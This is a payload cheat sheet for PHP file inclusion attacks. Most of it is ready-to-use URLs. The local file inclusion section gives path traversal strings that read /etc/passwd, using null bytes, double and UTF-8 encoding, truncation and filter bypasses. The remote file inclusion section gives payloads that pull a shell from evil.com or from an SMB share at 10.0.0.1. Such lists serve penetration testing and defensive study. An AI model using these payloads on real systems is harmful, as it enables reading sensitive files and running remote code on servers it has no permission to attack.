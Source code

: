 ## Local File Inclusion
### Null byte
```txt
http://example.com/index.php?page=../../../etc/passwd%00
```
### Double encoding
```txt
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
```
```txt
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
### UTF-8 encoding
```txt
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```
```txt
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```
### Path and dot truncation
On most PHP installations a filename longer than `4096` bytes will be cut off so any excess chars will be thrown away.
```txt
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
```
```txt
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
```
```txt
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
```
```txt
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```
### Filter bypass tricks
```txt
http://example.com/index.php?page=....//....//etc/passwd
```
```txt
http://example.com/index.php?page=..///////..////..//////etc/passwd
```
```txt
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```
## Remote File Inclusion
### Null byte
```txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
```
### Double encoding
```txt
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```
### Bypass `allow_url_include`
When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows target using the `smb` protocol.
1. Create a share open to everyone
2. Write a PHP code inside a file: `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`